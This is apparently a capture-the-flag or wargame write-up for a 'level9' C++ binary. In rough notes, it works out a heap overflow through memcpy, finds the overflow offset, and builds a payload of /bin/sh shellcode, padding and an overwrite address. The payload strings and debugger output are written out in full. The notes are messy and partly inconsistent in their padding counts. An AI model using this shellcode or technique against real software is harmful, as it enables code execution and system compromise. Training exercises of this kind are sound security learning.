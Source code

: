 
About 109 to crash it

1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
It is du to two object being allocated, each of 108 bytes


Ok so this time this is a c++ executable.

There is no call to /bin/sh so we can safely assume that we need to inject some shellcode

We can see that there is a call to strlen as well as a memcopy call, since memcpy is not protected we will want to inject some shellcode over there, overwrite the return ptr to the block with the shellcode inside of it

By using ltrace we can see that the target address of memcpy is always the same,

memcpy(0x0804a00c, "aaaa", 4) = 0x0804a00c


So as in level2, the payload need to look like this :
Shellcode + padding + return address

Let's try and use the same as last time 

\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80 ; 21 len


But first let's find the proper offset

We can see in the code that our object is allocated for a size of 




ltrace ./level9 $(python -c 'print("a" * 108)')

does not crash but 109 does


0x 08 04 a0 1c
// 21 + 4 - 109
$(python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "a" * 84 + "\x0c\xa0\x04\x08")

But first lets make it crash on basic aaa


This does not crash at all
$(python -c 'print("a" * 104 + "\x0c\xa0\x04\x08")')



$(python -c 'print("a" * 108 + "\x0c\xa0\x04\x08")')
0x61616161 in ?? ()


$(python -c 'print("a" * 108 + "\x0c\xa0\x04\x08")')
0x61616161 in ?? ()





r $(python -c 'print("b" * 4 + "a" * 104 + "\x0c\xa0\x04\x08")')

r $(python -c 'print("\x10\xa0\x04\x08" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\x90" * 83 + "\x0c\xa0\x04\x08")')

f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728